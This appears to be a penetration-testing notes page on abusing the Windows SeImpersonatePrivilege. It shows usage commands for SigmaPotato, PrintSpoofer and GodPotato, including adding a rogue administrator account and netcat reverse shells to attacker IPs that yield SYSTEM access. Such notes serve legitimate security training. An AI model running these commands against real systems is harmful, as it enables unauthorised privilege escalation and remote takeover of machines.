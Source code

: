 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SeImpersonatePrivilege

The `SeImpersonatePrivilege` allows a user to operate under another user's security context, typically by impersonating clients via mechanisms like **named pipes** or **RPC**. This privilege is normally assigned to `administrator` accounts and built-in service accounts like `LOCAL SERVICE`, `NETWORK SERVICE`, and `SERVICE`. While rare for standard users, `SeImpersonatePrivilege` is often accessible when gaining code execution through services like **IIS**, which commonly run under accounts that have it.

> _**Named pipes** are a method of **inter-process communication (IPC)** in Windows. They let two separate processes—either on the same system or across a network—**send and receive data** as if they were reading/writing to a file. Think of a named pipe as a **virtual file** that one process (the server) creates and waits on, while another (the client) connects to it using a known name (like `\\.\pipe\mypipe`). Once connected, both processes can exchange data in real time._

In the context of **privilege escalation**, named pipes can be abused when a **privileged process connects** to a pipe controlled by a lower-privileged attacker. If the attacker has `SeImpersonatePrivilege`, they can **impersonate the connecting user**, effectively hijacking their permissions.

<table><thead><tr><th width="131.66668701171875">Exploit</th><th>Target Mechanism</th><th>Typical Use Case</th><th>OS Compatibility</th></tr></thead><tbody><tr><td><strong>PrintSpoofer</strong></td><td>RPC/Named Pipes (Print API)</td><td>Fast, reliable on many Windows 10/Server versions</td><td>Windows 10/2016–2019 (some patched)</td></tr><tr><td><strong>GodPotato</strong></td><td>COM Server Hijack</td><td>When PrintSpoofer is patched</td><td>Works on newer/modern Windows (10/11)</td></tr><tr><td><strong>SigmaPotato</strong></td><td>Event Log Service</td><td>When PrintSpoofer and GodPotato fail</td><td>Windows 10+ (better support on newer builds)</td></tr></tbody></table>

## SigmaPotato

[**SigmaPotato**](https://github.com/tylerdotrar/SigmaPotato) is a local privilege escalation exploit that leverages the `SeImpersonatePrivilege` and the Event Log service to hijack a SYSTEM token through named pipe impersonation.

{% tabs %}
{% tab title="1. User Creation" %}
{% code overflow="wrap" %}
```powershell
> .\sigmapotato.exe "net user dave4 Pass123! /add"
...
[+] Process Output:
The command completed successfully.


> .\sigmapotato.exe "net localgroup Administrators dave4 /add"
...
[+] Process Output:
The command completed successfully.

> Get-LocalGroupMember administrators
...

User        CLIENTWK220\dave4         Local
```
{% endcode %}
{% endtab %}

{% tab title="2. Command Execution" %}
```powershell
./SigmaPotato.exe <command>
```
{% endtab %}

{% tab title="3. Reverse Shell" %}
```powershell
./SigmaPotato.exe --revshell <ip_addr> <port>
```
{% endtab %}
{% endtabs %}

## PrintSpoofer

[**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer) is a local privilege escalation exploit that abuses the `SeImpersonatePrivilege` to impersonate the `SYSTEM` account via a named pipe trick, giving the attacker a `SYSTEM` shell.

{% tabs %}
{% tab title="1. PrivEsc" %}
Escalate to `NT AUTHORITY\SYSTEM` on the same session:

```powershell
PrintSpoofer.exe -i -c cmd
```
{% endtab %}

{% tab title="2. RevShell" %}
Create a new `SYSTEM` process and exit immediately without interacting with it. Suitable for non-interactive cases, e.g. WinRM.

```powershell
PrintSpoofer.exe -c "C:\TOOLS\nc.exe 10.10.13.37 1337 -e cmd"
```

On the attacking box:

```bash
$ nc -lvpn 1337
...
C:\WINDOWS\system32>whoami
nt authority\system
```
{% endtab %}

{% tab title="3. RDP" %}
&#x20;Spawn a `SYSTEM` command prompt on your desktop, for instance, when logged in via an RDP session.

```powershell
# Check your session ID
C:\TOOLS>qwinsta
 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
 services                                    0  Disc
 console           Administrator             1  Active
>rdp-tcp           lab-user                  3  Active
 rdp-tcp                                 65536  Listen

C:\TOOLS>PrintSpoofer.exe -d 3 -c "powershell -ep bypass"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```
{% endtab %}
{% endtabs %}

## GodPotato

[**GodPotato**](../../../boxes/easy/forest.md) is a local privilege escalation exploit that abuses `COM` and `SeImpersonatePrivilege` to impersonate `SYSTEM` by hijacking privileged tokens via named pipes.

{% tabs %}
{% tab title="1. PrivEsc" %}
```powershell
GodPotato -cmd "cmd /c whoami"
```
{% endtab %}

{% tab title="2. RevShell" %}
```powershell
GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"
```
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="SigmaPotato" %}
{% embed url="https://github.com/tylerdotrar/SigmaPotato" %}
{% endtab %}

{% tab title="PrintSpoofer" %}
{% embed url="https://github.com/itm4n/PrintSpoofer?tab=readme-ov-file" %}
{% endtab %}

{% tab title="GodPotato" %}
{% embed url="https://github.com/BeichenDream/GodPotato" %}
{% endtab %}
{% endtabs %}
